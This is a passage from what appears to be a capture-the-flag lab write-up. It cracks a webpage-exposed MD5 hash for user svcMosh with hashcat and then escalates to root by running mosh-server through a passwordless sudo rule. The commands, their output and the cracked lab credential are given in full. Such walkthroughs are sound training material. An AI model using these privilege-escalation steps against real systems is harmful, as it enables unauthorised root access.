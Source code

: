 In the webpage we can see a user called `svcMosh` with a MD5 password `412DD4759978ACFCC81DEAB01B382403`.

Let's try to crack it.

```shell
❯ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --show
412dd4759978acfcc81deab01b382403:underwaterfriends
```

**New SSH credentials!**
- Username: `svcMosh`
- Password: `underwaterfriends`


## Privilege escalation
Check `sudo -l` and find `mosh-server` available. You can check online that it is a SSH replacement.

https://mosh.org/#usage

```shell
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

### Creating a mosh server
```shell
svcMosh@underpass:~$ sudo /usr/bin/mosh-server -p 4444
Error binding to IP -p: Bad IP address (-p): Name or service not known: Success


MOSH CONNECT 4444 c/Qn2uJcxpKMPThKILK5Yg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2802]
```

Now run `MOSH_KEY="c/Qn2uJcxpKMPThKILK5Yg" mosh-client 127.0.0.1 4444` to get into the root shell =)

